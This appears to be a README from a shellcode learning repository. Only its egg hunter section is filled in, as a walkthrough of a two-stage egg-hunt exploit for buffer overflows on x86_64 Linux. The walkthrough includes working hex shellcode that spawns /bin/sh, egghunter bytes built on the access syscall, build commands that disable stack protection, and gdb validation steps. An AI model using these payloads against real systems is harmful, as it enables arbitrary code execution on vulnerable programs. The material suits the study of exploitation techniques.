 # Shellcode

For the purpose of learning how to shellcode

## Getting Started

## Launch /bin/sh

## Bind TCP Shell with password

## Reverse TCP Shell with password

## Egg hunter

Compare to x86 system, egg hunt under x86_64 system is relatively slow. In order to speed up common egg hunt proof of concept operation, using gdb to modify the value of RDX register which in our case is the pointer register that hold the value of virtual memory address space from 0x0000000000000000 all the way to 0x00007fffffffffff.

Based on the original egghunt paper writen by [mmiller@hick.org], there are three way to accomplish egghunt under Linux system. Which are access, access, sigaction syscall.

Given such a scenerio, a programme has a Buffer over flow vulnerability, while unfortunatily there is limited space for attacker to exploit this access point, then we split our exploit into two stag. The first stage contain shellcode that exploit this vulnerability, but has a specifically chosen code (egg) append at the beginning of our shellcode.

Stage 1:

	First send payload shellcode (1) into vulnerable program.

	|Egg|Shellcode| => Vulnerable program

	After that, the virtual address space of this specific program will contain our shellcode and wait for us to find.

Stage 2:

	Send egghunter shellcode (2) into vulnerable program, by using the aforementioned unique egg, this tiny shellcode will go ahead to scan all the virtual memory address space of target system. From page to page, once egghunter successfully locate egg, then we can jump into this exploit shellcode we planted at stage 1.

#### Proof of concept workthrough

Use execve_sh.asm as test shellcode, which will launch an interactive shell.

Compile shellcode:

```bash
$ nasm -felf64 execve_sh.asm -o shell.o
```

Use objdump to check if there is any nullbyte remained (loader is writen in C, which use null byte as string terminater symbol, in that case we don't want any null byte presence in our shellcode):

```bash
$ objdump -M intel -D shell.o
```

Extract shellcode:

```bash
$ bash gen.sh shell.o
```

Use egghunter1.asm as test egghunter, which implemented egg hunt by evoking access syscall.

Compile egghunter:

```bash
$ nasm -felf64 egghunter1.asm -o egghunter.o
```

Use objdump to check if there is any null byte remained:

```bash
$ objdump -M intel -D egghunter.o
```

Extract egghunter:

```bash
$ bash gen.sh egghunter.o
```

Shellcode:

```
\x90\x50\x90\x50\x90\x50\x90\x50\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x83\xc0\x3b\x0f\x05
```

Egghunter:

```
\xbb\x90\x50\x90\x50\x48\x31\xc9\x48\xf7\xe1\x66\x81\xca\xff\x0f\x48\xff\xc2\x50\x53\x51\x52\x57\x56\x48\x31\xf6\x48\x8d\x7a\x04\xb0\x15\x0f\x05\x3c\xf2\x5e\x5f\x5a\x59\x5b\x58\x74\xdd\x39\x1a\x75\xde\x39\x5a\x04\x75\xd9\xff\xe2\x48\x31\xc0\x48\x83\xc0\x3c\x0f\x05
```

Put these two shellcode string into loader.c

Compile loader.c:

```bash
$ gcc -fno-stack-protector -z execstack loader.c -o loader
```

Validate egghunter:

```bash
$ gdb -q ./loader -tui
```

Set disassembly flavor:

```
(gdb) set disassembly-flavor intel
```

Set break point:

```
(gdb) break main
```

Because of ASLR, the address of egg + shellcode is randomized at runtime, that is why we need gdb to find address of implanted shellcode to speed up this operation.

After several continue:

```
> 0x55555555806b <egghunter+11>   or     dx,0xfff
  0x555555558070 <egghunter+16>   inc    rdx
  ...
  0x555555558073 <egghunter+19>   push   rax
  0x555555558078 <egghunter+24>   push   rsi
  0x555555558079 <egghunter+25>   xor    rsi,rsi
  0x55555555807c <egghunter+28>   lea    rdi,[rdx+0x4]
  0x555555558080 <egghunter+32>   mov    al,0x15
  0x555555558082 <egghunter+34>   syscall
  0x555555558084 <egghunter+36>   cmp    al,0xf2
  ...
```

Now egghunter about to execute `or dx, 0xfff` to switch to another memory page.

Query memory address of shellcode variable:

```
(gdb) info variables shellcode
```

```
0x0000555555558020  shellcode
```
The result may vary each time loader runs, which is the purpose of ASLR

```
set $rdi = 0x0000555555558020
```

Now presumably egghunter is now at correct memory page, then address 0x0000555555558020 will look like this:

```
0x0000555555558020 0x5090509050905090 <- egg
0x0000555555558028 0x622fbb4850c03148 <- shellcode
0x0000555555558030 0x485368732f2f6e69
                   ...
[ higher address ] [    shellcode   ]
```

Pointer surpass 4 byte to check given address at RDI is accessible or not. If succeed then previous 4 byte is accessible as well. After that, egghunter go ahead to validate egg string. Again, egghunter check 4 byte from RDI which is 0x50905090 to see if this 4 byte match ebx or not, then proceed to check next 4 byte against ebx. If all succeed, means egghunter now locate correct egg. Therefore, jmp into RDI, which are essentailly several `nop` and `push` instruction, and finally slide into real shellcode.
